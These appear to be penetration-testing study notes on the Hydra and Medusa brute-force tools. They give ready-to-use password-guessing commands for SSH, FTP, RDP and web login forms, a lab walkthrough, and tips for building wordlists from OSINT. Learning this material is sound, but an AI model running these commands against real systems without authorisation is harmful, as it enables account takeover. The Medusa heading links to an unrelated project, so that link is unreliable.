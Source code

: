 # Hydra
- Crafting the correct params string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. 

- Can brute force FTP, SSH, HTTP, SMTP, POP3, IMAP, MYSQL, MSSQL, VNC, RDP:
- HTTP: `hydra -L usernames.txt -P passwords.txt www.example.com http-get`
- Multiple SSH servers: `hydra -l root -p toor -M targets.txt ssh`
- FTP on non-standard port: `hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp`
- Web Login Form: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
- RDP Brute-forcing: `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp`

```
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```

- Look at the HTML of the login form for details


- The `POST` method indicates that data is being sent to the server to create or update a resource.
- `/login` is the URL endpoint handling the login request.
- The `Content-Type` header specifies how the data is encoded in the request body.
- The `Content-Length` header indicates the size of the data being sent.
- The request body contains the username and password, encoded as key-value pairs.
- Hydra's `http-post-form` service is specifically designed to target login forms: `hydra [options] target http-post-form "path:params:condition_string"`
- You can specify what success or failure is:
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"`

- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string. These can have static values or dynamic placeholders if their values change with each request.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

- The form submits data to the root path (`/`).
  - The username field is named `username`.
  - The password field is named `password`.
 
Therefore, the `params` string would be:
- `/:username=^USER^&password=^PASS^:F=Invalid credentials`
  - `"/"`: The path where the form is submitted.
  -  `username=^USER^&password=^PASS^`: The form parameters with placeholders for Hydra.
  -  `F=Invalid credentials`: The failure condition – Hydra will consider a login attempt unsuccessful if it sees this string in the response.
 
Resulting in - `hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"`

# [Medusa]([url](https://docs.medusajs.com/learn/fundamentals/modules))
- `man medusa`
- Modules (-M) are case sensitive, both the flag (M) and the modules you call. `HTTP` will fail but `http` wont etc.
- Whether the flag is capitlized or not will mean different things

- `medusa [target_options] [credential_options] -M module [module_options]`
- Useful for FTP, HTTP, IMAP, MYSQL, POP3, RDP, SSHV2, SUBVERSION(SVN), TELNET, VNX, Web Form.
- SSH Server: `medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh`
- Multiple HTTP Auth: `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET `
- test for empty or default passwords (where user = password: `medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name`

- Reminder SSH Login: `ssh sshuser@<IP> -p PORT`

- Find SSH access --> run `nmap localhost` --> run new medusa command on FTP port found: `medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5` --> Found ftpuser password then run `ftp <IP>` --> enter user --> enter password -->> find file --> `get filename1` --> now in SSH shell

- Make a custom wordlist with `Username Anarchy`
  - `/username-anarchy Jane Smith > jane_smith_usernames.txt`
  - txt file created will have a bunch of username variations based off `Jane Smith`
 
- Make custom password lists with `CUPP`:
  - CUPP will take your inputs and create a comprehensive list of potential passwords
  - OSINT will be a goldmine of information for CUPP
  - Spawn CUPP with `cupp -i` and follow the prompts
 
Basic http: `medusa -h 83.136.252.13 -n 38252 -U top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -M http`

| Option | Description | Example |
|--------|-------------|---------|
| `-h HOST` | Target host (IP or hostname) | `medusa -h 192.168.1.100 ...` |
| `-H FILE` | File containing target hosts | `medusa -H hosts.txt ...` |
| `-u USER` | Username to test | `medusa -u admin ...` |
| `-U FILE` | File containing usernames | `medusa -U users.txt ...` |
| `-p PASS` | Password to test | `medusa -p password123 ...` |
| `-P FILE` | File containing passwords | `medusa -P passwords.txt ...` |
| `-C FILE` | File containing username:password combinations | `medusa -C combos.txt ...` |
| `-O FILE` | Write found logins to file | `medusa -O found_logins.txt ...` |
| `-t THREADS` | Number of threads (default: 8) | `medusa -t 16 ...` |
| `-T SECONDS` | Total timeout in seconds | `medusa -T 300 ...` |
| `-f` | Stop after first successful login per host | `medusa -f ...` |
| `-F` | Stop after first successful login (global) | `medusa -F ...` |
| `-v` | Verbose mode | `medusa -v ...` |
| `-d` | Display list of available modules | `medusa -d` |
| `-n PORT` | Use non-default port | `medusa -n 2222 ...` |
| `-s` | Enable SSL | `medusa -s ...` |
| `-m` | Module-specific parameters | `medusa -m DIR:/admin ...` |


